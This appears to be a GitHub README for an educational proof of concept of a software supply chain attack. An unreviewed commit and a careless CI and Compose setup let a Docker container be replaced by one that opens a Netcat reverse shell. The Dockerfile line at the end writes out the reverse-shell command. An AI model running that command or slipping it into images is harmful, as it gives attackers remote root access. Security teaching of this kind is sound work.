 <h1 align="center">Proof of Concept for a Software Supply Chain Attack</h1>
<br/>
<p align="center">
<img src="docs/cover.png" alt="сhat-logo" width="301" height="231" />
<h3 align="center">
Docker container substitution scenario
</h3>
<hr>
<h3> ONLY FOR EDUCATIONAL PURPOSES </h3>

### Description
This scenario demonstrates how a malicious actor can substitute a legitimate Docker container with a malicious one by pushing a new version of the container to the Docker registry. Noticeable that there is a **vulnerability chain**.

**Not reviewed code was pushed**
Code with reverse shell was overlooked and pushed directly to the `master` branch.

**CI pipeline blindly pushes to the container registry with the  `latest` tag**
The pipeline configured without any security testing tools or scripts. It pushes the container to the only registry with the `latest` tag.

**Docker Compose file blindly pulls a container with the `latest` tag**
The actual vulnerability persisted in the Docker Compose file before the attack. Pulling by any version tag is not recommended in the production environment.

**Attacker gets persistance in the production server**
With the reverse shell using Netcat in the container, the attacker can get access to the production server and maintain persistence. No monitoring solutions were set up to detect the malicious activity.

**Attacker gets root access**
The Docker container runs as root in the root Docker context of the production server. Mounted by the Docker compose volumes are also accessible by the attacker. 

### Prerequisites
- Docker Engine
- Docker Compose
- Git
- One victim machine
- One attacker machine with a public or identifiably in the same network IP address (for the reverse shell)

### Setup
Just clone the current repository. You can switch between the normal and malicious states by checking out the corresponding commit:

- Normal state
```bash
git checkout c6800d09c59d4d76db5521b7a5e3ebd6e0f7e182
```

- Malicious state
```bash
git checkout 0c811eb897c1a3016fcedd46835e6c5df8ad451c
```

### Run Containers
If first time running, you can simply run the following command to start the containers:
```bash
docker-compose up
```

You can also use `docker-compose pull` to run get the latest version from the current registry.

To build the images manually, you can run the following command:
```bash
docker build . -t ghcr.io/izobretatel777/supply-chain-attack-poc:latest
```

### Normal state
There is a NGINX container running on port 80. You can access it by opening a browser and navigating to `http://localhost:80`.

### Malicious state
The NGINX container was replaced by a Ubuntu container with Netcat in the entrypoint.
You can modify the address of the Netcat server IP and port in the Dockerfile (line 8):
```Dockerfile
RUN echo "sh -i >& /dev/tcp/<Your IP Address>/<Your Port> 0>&1" > /start.sh
```
